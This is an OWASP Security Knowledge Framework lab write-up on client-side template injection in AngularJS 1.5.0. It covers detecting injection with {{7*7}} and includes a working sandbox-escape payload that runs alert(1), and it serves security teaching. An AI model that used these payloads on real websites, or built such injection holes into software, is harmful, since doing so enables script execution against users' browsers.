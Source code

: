 # KBID 111 - Client Side Template Injection 


## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csti 
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti  
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ING_Primary_Logo.png)

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](.gitbook/assets/csti-1.png) 

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```html
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try! 

{% hint style="info" %}We are going to use the same payload of the XSS lab{% endhint %}

```html
"><script>alert('XSS')</script>
```
Unfortunately the alert does not trigger :(

![](.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3 

{% hint style="warning" %}How do we get XSS?{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result. 

![](.gitbook/assets/csti-3.png)

{% hint style="success" %}Bingo!!{% endhint %}

## Exploitation 

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers. 

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit: 

* break the sanitizer
* escape the sandbox 
* forge a working payload 

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular. 

#### Step 1 

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```
We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2 

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```
We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute  JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes"%}
{% embed url="https://docs.angularjs.org/guide/security"%}



